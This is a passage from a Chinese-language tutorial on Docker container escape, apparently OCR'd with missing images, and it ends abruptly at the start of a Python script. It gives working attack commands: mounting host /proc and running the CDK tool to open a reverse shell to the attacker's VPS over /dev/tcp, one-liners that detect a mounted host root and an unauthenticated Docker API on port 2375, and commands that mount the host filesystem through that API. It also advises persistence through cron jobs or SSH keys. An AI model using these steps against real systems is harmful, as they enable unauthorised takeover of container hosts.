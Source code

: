 本地挂载profs命令启动docker:

docker run -v /proc:/host_proc --rm -it ubuntu bash

判断一下：

![]()然后在自己的攻击VPS上启动监听，把CDK搞到docker里面执行如下命令：

chmod +x cdk_linux_amd64  
./cdk_linux_amd64 run mount-procfs /host_proc "bash -i >& /dev/tcp/vpsip/7777
0>&1"  

![]()收到反弹回来的宿主机的shell:![]() ** **4、挂载宿主机根目录**** ** **  
****

 ** **a.检测****  

执行以下命令，如果返回 Root directory is mounted. 则说明宿主机目录被挂载  

find / -name passwd 2>/dev/null | grep /etc/passwd | wc -l | grep -q 7 && echo
"Root directory is mounted." || echo "Root directory is not mounted."  

如果返回 Root directory is not mounted.
则说明没有挂载![]()利用思路：根目录都被挂载了。直接计划任务，ssh写就完事了，就不复现了。 ** **  
****

 ** **5、Docker remote api 未授权访问**** ** **  
****

 ** **a.检测****  

执行以下命令，如果返回 Docker Remote API Is Enabled. 说明目标存在 Docker remote api 未授权访问  

IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && timeout 3 bash
-c "echo >/dev/tcp/$IP/2375" > /dev/null 2>&1 && echo "Docker Remote API Is
Enabled." || echo "Docker Remote API is Closed."  

如果返回 Docker Remote API is Closed. 则表示目标不存在 Docker remote api 未授权访问![]() **
**b.漏洞复现****  

b1:写入计划任务反弹shell  

BEN机搭建了一个环境：![]()验证是否存在：

docker -H tcp://192.168.43.145 ps -a  

如果存在就会看到目标的docker容器列表：

![]()哎呀。这个vulhub的下面没有。  

远程查看存在的镜像：

docker -H tcp://192.168.43.145 images  

docker H tcp://*.*.*.*:2375 run -it-v /:/mnt imagelD /bin/bash  

shell脚本：

import docker  
  